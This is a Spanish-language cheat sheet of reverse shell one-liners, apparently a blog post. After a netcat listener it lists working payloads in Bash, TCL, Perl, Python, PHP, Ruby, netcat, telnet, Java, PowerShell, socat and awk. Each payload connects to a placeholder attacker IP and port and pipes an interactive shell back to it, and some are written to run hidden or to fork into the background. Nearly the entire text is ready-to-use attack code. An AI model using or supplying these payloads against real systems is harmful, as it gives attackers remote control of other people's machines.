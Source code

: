 ```yaml
---
layout: post
title: Reverse Shells
---
```


Reverse Shells Cheat Sheet

# Nota
Usualmente podrás reemplazar el `/bin/sh -i` por `cmd.exe` (por ejemplo en las conexiones de netcat)


# Listener
```
nc -l -v -p <PORT>
```


# Bash
Distintas formas de crear un reverse shell. Todas igual de validas. En ocasiones tambien es posible ocupar `/dev/udp/`

```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done

exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0

0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
```


# TCLsh
En caso de que Bash no funcione.

```
echo 'set s [socket <IP> <PORT>];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
```


# Perl
Reverse shell usando /bin/sh

```
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Reverse shell sin /bin/sh

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

Reverse shell en Windows

```
perl -MIO -e "$c=new IO::Socket::INET(PeerAddr,'<IP>:<PORT>');STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"
```


# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


# PHP
Reverse shell usando distintas funciones

```
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
 
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
 
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
 
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
 
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```


# Ruby
Reverse shell usando /bin/sh

```
ruby -rsocket -e 'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Reverse shell sin /bin/sh

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

Reverse shell en Windows

```
ruby -rsocket -e "c=TCPSocket.new('<IP>','<PORT>');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"
```


# Netcat
```
nc <IP> <PORT> -e /bin/sh -i
```


# Telnet
Se realiza doble conexion por telnet (dos puertos), una donde se envia los comandos y la otra donde se recibe la informacion

```
telnet <IP> <PORT1> | /bin/bash | telnet <IP> <PORT2>
```


# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


# PowerShell
```
powershell.exe -w hidden -c '$client = New-Object System.Net.Sockets.TCPClient("<IP>",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```


# Socat
```
socat tcp-connect:<IP>:<PORT> exec:"bash -li",pty,stderr,setsid,sigint,sane
```


# Awk
```
awk 'BEGIN {s = "/inet/tcp/0/<IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
